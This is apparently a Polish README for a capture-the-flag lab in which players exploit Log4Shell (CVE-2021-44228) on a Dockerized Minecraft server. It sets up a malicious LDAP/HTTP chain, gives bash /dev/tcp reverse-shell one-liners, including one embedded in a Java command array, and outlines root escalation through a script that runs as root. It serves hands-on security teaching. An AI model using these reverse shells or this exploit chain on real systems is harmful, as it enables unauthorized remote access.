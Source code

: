 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Wymagania
- Docker
- Java (do uruchomienia clienta Minecrafta - jeśli jej nie masz, pobierz i zainstaluj)
- Minecraft Launcher
- NetCat (użyj WSL lub zainstaluj na Windowsie)

## HARD - Ogólny zarys postępowania
1. Uruchom server docker z serverem Minecraft:
   - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
2. Wykorzystaj podatność CVE-2021-44228 do uzyskania reverse shell
   - napoczęty `marshalsec/Dockerfile` może ci ułatwić,
   - tak samo masz `codehttp/` gdzie manipulować trzeba tylko linijką gdzie ustawia zmienną `cmd`,
3. Interesujący cię plik jest umieszczony gdzieś na systemie,
4. Rozejrzyj się po plikach w folderze `/server`
5. Po odczytaniu flagi zapraszamy do wspólnej gry :)


## EASY - Krok po kroku

### 0. Uruchamianie SKLauncher
   1. Otwórz SKLauncher, który również znajduje się w repozytorium.
   2. Wybierz tryb offline.
   3. Kliknij '+' obok "Installations Manager".
   4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### 1. Uruchomienie serwera Minecraft
   1. **Uruchom Minecraft'a:**
      - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
      - po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

### 2. Wykorzystaj podatnośc CVE-2021-44228 do uzyskania reverse shell


<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

   1. **Uruchom serwer LDAP:**
      - `cd marshalsec`
      - znając schemat działania *JNDI* ustaw w Dockerfile adres IP i PORT gdzie będzie wystawiony kod do wykonania na serwerze Minecrafta,
      - `docker build . -t marshal`
      - `docker run -p 1389:1389 -ti marshal`

   2. **Przygotuj kod do połączenia się z reverse shell i wystaw go na serwerze http:**
      - przygotuj sobie `netcat` na hoście (swoim komputerze), może na wsl, a może zainstaluj na Windowsie,
      - potem uruchamiasz nasłuchiwanie komendą `nc -l [port]`,
      - cd `codehttp/`
      - ten kontener służy do serwowania statycznych plików po http,
      - edytuj linijkę w pliku `Log4jRCE.java`,
         1. nie uruchamiaj komendy bezpośrednio, lecz stwórz plik, a potem uruchom go bashem,
         2. dodaj " &" na końcu linijki w pliku gdzie uruchamiasz netcata, dzięki temu zostanie on uruchomiony w tle, a server Minecrafta nie scrashuje,
         3. podpowiedzi:
            1. `bash -c "..."`,
            2. `echo "komenda > plik.sh" ; bash plik.sh`,
            3. `nohup`,
            4. `bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1`,
            5. ` &`,
         4. 
            <details>
            <summary><b> Pokaż komendę:</b></summary>

            ```java
            String[] cmd = {"bash", "-c", "echo 'nohup bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1 &' > /server/script.sh; bash /server/script.sh"};
            ```

            </details>
         .4 
      - podczas budowania obrazu zostanie ten plik do niego skopiowany, a następnie skompilowany,
      - a po uruchomieniu kontenera, będzie serwowany plik "Log4jRCE.class" na porcie *:8888* tego kontenera,
      - zbuduj obraz: `docker build . -t codehttp`,
      - uruchom kontener: `docker run -p 8888:8888 -ti codehttp`,



## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

uzyskania Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[ip kompa na którym jest `nc` włączony]/5000 0>&1

# przykład:
bash -i >& /dev/tcp/172.17.0.1/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t <nazwa-obrazu>

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti <nazwa-obrazu>
```

### Konfiguracja EOL w VSCode
```sh
# Jeśli pracujesz na Windowsie, konieczna może okazać się zmiana EOL - End Of Line:
- Otwórz `Minecraft-Log4j-Exploit/server/start_server.sh`.
- Użyj `CTRL + SHIFT + P`.
- Zmień `EOL sequence`.
```

## Przydatne komendy 

### Docker
```sh
docker build
docker run
docker ps
docker ps -a
docker kill <id>
docker remove <id>
docker image prune
docker container prune
```

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft](https://www.minecraftxl.com/deep-sea-map/) od BlockWorks


TODO:
lf w starcie

wejsc na server mc wpisac komende

jak zatrzymać bash -uzyskania reverse shell?

echo to wbudowana funkcja basha, a nie żadna binarka 

allready allocated port: docker desktop delete container, 

find / -name "*flag*" 2>/dev/null

